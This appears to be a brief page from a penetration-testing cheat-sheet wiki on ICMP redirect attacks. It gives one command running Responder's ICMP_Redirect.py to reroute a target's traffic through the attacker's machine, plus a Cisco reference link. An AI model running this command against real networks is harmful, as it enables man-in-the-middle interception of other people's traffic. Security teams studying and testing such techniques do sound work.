 ```yaml
---
authors: ShutdownRepo
category: ad
---
```


# 🛠️ ICMP Redirect

```bash
python3 tools/Icmp-Redirect.py --interface eth0 --ip $my_ip --gateway $gateway --target $target --route $dnsserver1 --secondaryroute $dnsserver2
```

need iptable

[https://www.cisco.com/c/en/us/support/docs/ios-nx-os-software/nx-os-software/213841-understanding-icmp-redirect-messages.html](https://www.cisco.com/c/en/us/support/docs/ios-nx-os-software/nx-os-software/213841-understanding-icmp-redirect-messages.html)

Responder/tools/ICMP_Redirect.py